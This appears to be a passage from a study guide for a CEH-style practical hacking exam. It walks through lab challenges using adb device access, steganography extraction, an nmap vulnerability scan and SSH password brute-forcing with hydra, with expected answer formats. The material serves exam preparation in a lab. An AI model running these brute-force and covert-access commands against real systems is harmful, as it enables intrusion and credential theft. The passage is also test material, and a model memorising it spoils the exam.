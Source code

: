 An insider attack involving one of the employee's mobile device in the 10.10.55.0/24 subnet has been identified. You are assigned to covertly access the user's device and obtain hidden data in the image file stored . Analyze the image file and extract the sensitive data hidden in the file and enter the secret code as the answer. (Format: A*AaAa*AN)

```bash
adb shell
find /sdcard/ -name "*.jpg" -o -name "*.png"
adb pull /sdcard/Downloads/CEH.jpg ./ceh.jpg
#Using Steghide to Extract Hidden Data:
steghide extract -sf ceh.jpg
cat hidden.txt
#Using Binwalk to Extract Hidden Data:
binwalk --dd='.*' imagefile.jpg
```

**Challenge 5**:

Perform a vulnerability scan for the host with IP address 192.168.44.32. What is the CVE number of the vulnerability with least severity score? (Format: AAA-NNNN-NNNN)

```bash
nmap --script vuln 192.168.44.32 -oN vuln_scan_results.txt
#Determine the CVE with the Least Severity
```

**Challenge 6**:

Exploit a remote login and command-line execution application on a Linux target in the 10.10.55.0/24 subnet to access a sensitive file, Netnormal.txt. Enter the content in the file as the answer. (Format: ANaN*aNaN)

```bash
nmap -p 22 --open 10.10.55.0/24
hydra -L user.txt -P pass.txt 192.168.0.1 ssh
ssh Marcus@10.10.55.x
find / -type f -name Netnormal.txt 2> /dev/null
cat Netnormal.txt
```

**Challenge 7**:

An ex-employee of an organization has stolen a vital account credential and stored it in a file named restricted.txt before leaving the organization. The credential is a nine-character alpha-numeric string. Enter the credential as the answer. The restricted.txt file has been identified from the employee's email attachment and stored in the "EH Workstation – 2" machine in the Documents folder. Note: You have learned that "password" is the key to extracting credentials from the restricted.txt file. (Format: aaaaa*NNN)

```bash
cd ~/Documents
stegsnow -p password -C restricted.txt output.txt
cat output.txt | base64 -d
```

**Challenge 8**:

Exploit weak credentials used for SMB service on a Windows machine in the 10.10.55.0/24 subnet. Obtain the file, Sniffer.txt hosted on the SMB root, and enter its content as the answer. (Format: a*aaNaNNa)
